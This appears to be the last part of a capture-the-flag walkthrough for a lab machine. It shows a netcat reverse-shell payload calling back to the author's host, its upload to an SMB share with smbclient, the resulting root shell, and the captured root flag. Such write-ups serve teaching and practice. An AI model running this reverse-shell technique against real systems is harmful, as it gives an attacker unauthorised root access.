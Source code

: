  ```
 nc -e /bin/sh 172.16.250.200:8000
 ```

 ```
 smbclient //127.0.0.1/grotesque

Unable to initialize messaging context
Enter WORKGROUP\freddie's password: 
Try "help" to get a list of possible commands.
smb: \> put shell 
putting file shell as \shell (340000.0 kb/s) (average inf kb/s)
```

Shortly after uploading the payload, we get a connection on our local listner:<br><br>

```
Connection from 172.16.250.96:49502

id
uid=0(root) gid=0(root) groups=0(root)
```

At this point, we capture the **root.txt** flag:<br><br>

```
5C42D6BB0EE9CE4CB7E7349652C45C4A
```
